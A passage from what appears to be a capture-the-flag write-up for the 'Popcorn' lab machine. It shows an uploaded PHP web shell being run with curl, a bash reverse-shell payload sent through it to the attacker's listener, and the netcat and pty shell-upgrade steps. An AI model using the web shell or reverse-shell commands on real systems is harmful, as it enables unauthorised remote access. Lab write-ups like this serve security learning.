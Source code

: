 ![](/img/image-20200621125015779.png)

And it gives execution:



    root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell

To get a shell, I'll start `nc` and pass `cmd` as a reverse shell:



    root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"



At `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.6.
    Ncat: Connection from 10.10.10.6:33054.
    bash: no job control in this shell
    www-data@popcorn:/var/www/torrent/upload$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll upgrade the shell:



    www-data@popcorn:/var/www/torrent/upload$ python -c 'import pty;pty.spawn("bash")'
    www-data@popcorn:/var/www/torrent/upload$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# fg
                                                           reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@popcorn:/var/www/torrent/upload$
